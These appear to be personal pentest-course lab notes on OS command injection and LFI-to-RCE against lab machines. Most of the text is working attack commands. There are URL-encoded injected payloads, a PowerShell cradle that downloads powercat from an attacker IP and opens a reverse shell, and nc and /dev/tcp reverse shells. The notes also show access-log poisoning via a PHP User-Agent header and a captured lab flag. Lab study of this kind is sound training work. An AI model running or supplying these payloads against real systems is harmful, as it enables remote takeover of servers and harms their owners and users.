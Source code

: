 ### WINDOWS
```bash
# IP config test
curl -X POST --data 'Archive=git%3Bipconfig' http://192.168.50.189:8000/archive 
# Detect if CMD or PowerShell, (dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
curl -X POST --data 'Archive=git%3B(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell' http://192.168.50.189:8000/archive
```
* Get a reverse shell with powercat
* base code, `IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.45.167/powercat.ps1");powercat -c 192.168.45.167 -p 4444 -e powershell`
* Use w3schools to encode then try 
* copy powercat from `cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .`
* Start python server and ncat listener
```bash
curl -X POST --data 'Archive=git%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F192.168.45.167%2Fpowercat.ps1%22)%3Bpowercat%20-c%20192.168.45.167%20-p%204444%20-e%20powershell%20  http://192.168.50.189:8000/archive
```
### LINUX
* Linux Rev shell instead
* Basecode * revshell "nc -c" `nc -c sh 192.168.45.167 4444`
* ENCODED `nc%20-c%20sh%20192.168.45.167%204444`

```bash
curl -X POST --data 'Archive=git%3Bsh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.167%2F4444%200%3E%261'  http://192.168.102.16:8000/archive

```



# Labs 
## 9.1 VM1-1
* IP 192.168.232.16 mountaindesserts.com
* /home/ariella/flag.txt
*Follow the steps in this section and leverage the LFI vulnerability in the web application (located at http://mountaindesserts.com/meteor/) to receive a reverse shell on WEB18 (VM #1). 
*Get the flag from the /home/ariella/flag.txt file. To display the contents of the file, check your sudo privileges with sudo -l and use them to read the flag.

* Validating DIR traversal can enumerate log file, to see what is writeable for LFI
```shell
curl --path-as-is http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log`
```
* The DIR traversal was successful, validated access.log has User-Agent in log
* Attempting to add our php code user-agent and inject to the access.log 
    * This is done by navigating to website, and finding admin page with .php in the link, 
    * sending this page to burp repeater, and then modifying user-agent with php code -> SEND
* Now we Re-use our first DIR traversal command, but add the cmd back onto the end of it: `../../../../../../../../../var/log/apache2/access.log&cmd=whoami`
* start NC listener on KALI `nc -nvlp 4444`
* go for RevShell, using the encode bash shell, but with our IP `bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.203%2F4444%200%3E%261%22`
* FLAG = OS{898286a23ae4568b53b729eaee1bbb24}
---
